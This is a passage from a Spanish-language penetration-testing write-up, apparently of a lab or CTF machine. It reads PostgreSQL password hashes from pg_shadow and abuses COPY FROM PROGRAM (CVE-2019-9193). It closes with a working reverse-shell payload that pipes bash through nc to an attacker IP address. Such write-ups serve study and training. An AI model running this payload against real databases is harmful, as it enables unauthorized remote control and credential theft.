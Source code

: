 ![](/assets/images/Post/image025.png)

Podemos observar que la versión exacta del DBMS PostgreSQL ejecutado en el sistema destino es 9.5.21. Además, consta de 3 tablas. Además, podemos observar los roles de los usuarios, que pueden acceder o conectarse al servidor PostgreSQL.

Ahora que hemos podido acceder al servidor PostgreSQL con las credenciales del superusuario postgres, podemos observar los registros de la tabla pg_shadow, que contiene información sobre los usuarios que pueden conectarse al servidor PostgreSQL.

![](/assets/images/Post/image027.png)

Podemos observar los hashes MD5 de las contraseñas de los usuarios, que pueden acceder al servidor PostgreSQL. Además, debemos saber que para las versiones mayores a 9.3 de PostgreSQL se permite el uso de la función COPY TO/FROM PROGRAM siendo el superusuario postgres, para ejecutar comandos en el sistema destino. Mas información sobre esta vulnerabilidad lo puedes observar en https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9193.

Ahora aprovecharemos que podemos acceder al servidor PostgreSQL para utilizar la funcion COPY TO/FROM PROGRAM y ejecutar un comando que nos genera una reverse Shell en el sistema destino. Para ello ejecutaremos las siguientes consultas SQL.
- `CREATE TABLE reverseshell (resultado text);` : Esta consulta SQL es con el fin de crear una nueva tabla en PostgreSQL llamada reverseshell. Esta  tabla tiene una sola columna llamada resultado de tipo text.
- `COPY reverseshell FROM PROGRAM 'mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.8.123.194 1500 >/tmp/f';` : Esta consulta SQL es con el fin de ejecutar el comando, que nos generara la reverse Shell, y copiar la salida del comando y guardarla en la tabla reverseshell.
